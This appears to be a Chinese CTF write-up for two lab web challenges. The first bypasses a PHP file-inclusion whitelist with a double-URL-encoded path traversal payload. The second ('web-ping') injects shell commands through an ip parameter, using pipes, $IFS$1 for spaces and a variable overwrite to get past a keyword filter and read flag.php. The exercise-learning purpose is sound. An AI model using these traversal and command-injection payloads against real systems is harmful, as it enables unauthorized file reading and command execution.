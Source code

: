 ```php
    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    echo "you can't see it";

```
这段代码的大意是获取传入的参数位数，然后截取前该位数的字符。
举个例子，传入参数是flag.php，首先经过mb_strpos获取位数，为8.然后经过mb_substr截取flag.php的前八位，也就是flag.php。
然后需要该参数在白名单里，也就是截取第一个？后的值为hint.php或source.php
然后经过url解码后再进行一次过滤，如果最后返回真，即可包含文件。

payload:
```?file=source.php%253F../../../../../ffffllllaaaagggg```

![](https://img-blog.csdnimg.cn/20200726162025205.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNTIzMTcw,size_16,color_FFFFFF,t_70)
>注： 确保url解码后能通过白名单。浏览器会解码一次，而 ? 经过一次urlencode编码为：%3f；两次为：%253f

### web-ping
 打开靶场一看，/？ip=  
 而题目的题目pingpingping 于是就在url地址后面拼 ```/?ip=127.0.0.1  ```
 结果发现ping通了  
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923192806811-1975841915.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923192806811-1975841915.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
 &nbsp;  
 &nbsp;那我们是不是可以用管道符查看下目录呢？于是试一下吧&nbsp;``` /?ip=127.0.0.1|ls``` 出现两个 ```flag.php```和```index.php  ```
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923193130822-83563154.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923193130822-83563154.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
 &nbsp;  
 &nbsp;这道题这么简单的吗？于是我们```/?ip=127.0.0.1|cat flag.php ```
 以为可以出现我们想要的flag，结果出现了这个界面，  
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923193308286-271532507.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923193308286-271532507.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
 原来这个没这么简单，这段英语属实不知道啥意思，过滤了空格的意思吗？  
 过滤空格的解决方法  
 $IFS$1　　　　　　//$1改成$加其他数字都行，都能当作空格来用  
 ```?ip=127.0.0.1|cat$IFS$1flag.php  ```
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194250063-260928141.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194250063-260928141.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
 结果flag也需要绕过,那我们就先看看index文件吧  
 结果发现了过滤规则  
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194427173-1915155647.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194427173-1915155647.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
 &nbsp;  
 看着过滤了好多字符，但是在最后我们看到了a变量，那我们是不是可以将a的值覆盖，然后进行绕过呢？  
 ```/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php  ```
 然后我们在源码中发现了flag  
 <a data-fancybox="gallery" href="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194716832-1705740038.png"><img src="https://img2020.cnblogs.com/blog/2075370/202009/2075370-20200923194716832-1705740038.png" alt="" loading="lazy" class="medium-zoom-image"></a>  
```flag{53ec7aaa-24df-4624-819b-dc03dfa8c9fa}```

```
